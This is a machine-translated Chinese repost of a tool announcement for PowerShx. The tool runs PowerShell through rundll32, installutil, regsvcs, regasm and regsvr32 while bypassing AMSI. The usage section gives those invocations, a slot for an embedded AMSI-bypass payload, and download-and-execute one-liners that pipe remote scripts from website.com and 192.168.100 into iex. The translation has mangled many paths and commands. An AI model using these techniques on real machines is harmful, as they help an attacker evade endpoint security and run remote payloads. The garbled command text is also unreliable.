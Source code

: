 # PowerShx:不受软件限制地运行 Powershell

> 原文：<https://kalilinuxtutorials.com/powershx-2/>

[![](img/8c0cd5a8ed1f3a1a2e89dcfe0ebbebd6.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhsVH5qw1nRdrMZBuPN3nRiI3spAMlE0n7BnSJg6zERW6rhEaKfJ9dglHJCUKUiWh8QBgCopLI25ZSTNoIpkVEhuRMdsA2oREe_m_N8hBj6hYK6tGyc0FwmPy4SpRiTCk7PthXK5gTXHLi4iF1U1OuUqxG_wIwOk6GQw_EES4JrsyzdQ8nPfyl6uXcS=s978)

**PowerShx** 是对 PowerShdll 项目的重写和扩展。PowerShx 提供了绕过 AMSI 和运行 PS Cmdlets 的功能。

**特色**

*   使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regsvr32.exe regasm.exe 运行带有 dll 的 Powershell。
*   不使用 powershell.exe 或 powershell_ise.exe 运行 Powershell
*   AMSI 旁路功能。
*   直接从命令行或 Powershell 文件运行 Powershell 脚本
*   导入 Powershell 模块并执行 Powershell Cmdlets。

**用法**

T1。dll 版本

**rundll32**

**rundll32 PowerShx.dll，main -e
rundll32 PowerShx.dll，main -f 运行作为参数传递的脚本
rundll32 PowerShx.dll，main -f -c 加载脚本并运行 PS cmdlet
rundll32 powershx . dll，main -w 在新窗口中启动交互控制台
rundll32 PowerShx.dll，main -i 启动交互控制台
rundll32 PowerShx**

**备选方案(这些技术的分包商的信用):**

*   **x86–C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
    x64–C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 3031964 \ installutil . exe/log file =/logto console = false/U PowerShx.dll**
*   **x86 C:\Windows\Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
    x64c:\ Windows \ Microsoft。PowerShx.dll**
*   **x86 C:\Windows\Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
    x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll**
*   **regsvr 32/s/u PowerShx.dll—>调用 DllUnregisterServer
    regsvr 32/s PowerShx.dll—>调用 DllRegisterServer**

**。exe 版本**

**PowerShx.exe-我启动一个交互控制台
PowerShx.exe-e
PowerShx.exe-f 运行作为参数传递的脚本
PowerShx.exe-f-c 加载一个脚本并运行一个 PS cmdlet
PowerShx.exe-s 试图绕过 AMSI。**

**嵌入式有效载荷**

可以通过更新数据字典“Common”来嵌入有效载荷。Payloads.PayloadDict”并在方法 PsSession.cs -> Handle()中调用它。示例:在 Handle()方法中:

**私有 void 句柄(Options 选项)
{
//用户脚本前预执行
_ps。有效负载。payload dict[" amsi "])；
}**

**例题**

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main[系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))PowerShx.exe ^| iex
e【系统。Text.Encoding]::默认。GetString([System。convert]::from base64 str**I**ng(" base64 "))^|**iex

**注意:**帝国 stagers 需要使用【System。Text.Encoding]::Unicode

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main。{ iwr-useb https://website.com/Script.ps1 } ^| iex；
PowerShx.exe-e”IEX((new-object net . webclient)。download string(' http://192 . 168 . 100/payload-http ')"**

**要求**

。网络 4

[**Download**](https://github.com/iomoath/PowerShx)